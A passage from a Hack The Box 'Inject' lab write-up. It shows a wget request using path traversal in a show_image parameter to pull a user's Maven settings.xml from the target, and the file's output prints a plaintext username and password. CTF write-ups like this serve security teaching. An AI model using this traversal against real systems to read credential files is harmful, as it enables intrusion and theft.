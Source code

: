 ```
                </dependency>

        </dependencies>
        <build>
                <plugins>
                        <plugin>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
                                <version>${parent.version}</version>
                        </plugin>
                </plugins>
                <finalName>spring-webapp</finalName>
        </build>

</project>

```
Printing the contents to the terminal window using cat, we can see several references to Apache Maven. We can also see the dependencies from the Spring framework.  
&nbsp;  

**Settings.xml**  

![Maven Settings](/blog/htb/machines/inject/img/maven_settings.jpg)  
A quick Google search returns the documentation for the 'settings.xml' file from Apache Maven.  

![Burp Repeater](/blog/htb/machines/inject/img/burp_repeater_4.jpg)  
Over in Burp Repeater lets try and read the settings file in the users home directory.  
&nbsp;  

```
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ wget http://10.10.11.204:8080/show_image?img=../../../../../../../../../home/frank/.m2/settings.xml -O settings.xml
--2023-06-21 20:04:30--  http://10.10.11.204:8080/show_image?img=../../../../../../../../../home/frank/.m2/settings.xml
Connecting to 10.10.11.204:8080... connected.
HTTP request sent, awaiting response... 200 
Length: 617 [image/jpeg]
Saving to: ‘settings.xml’

settings.xml                                                100%[========================================================================================================================================>]     617  --.-KB/s    in 0s      

2023-06-21 20:04:30 (25.9 MB/s) - ‘settings.xml’ saved [617/617]
```
Retreive a copy of the 'settings.xml' file to your local machine for later reference.  

```                                                                                                                                                                                                                                             
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Inject Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 21/06/2023 - 05:04 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)
[WARNING]: provided hosts list is empty, only localhost is available. Note that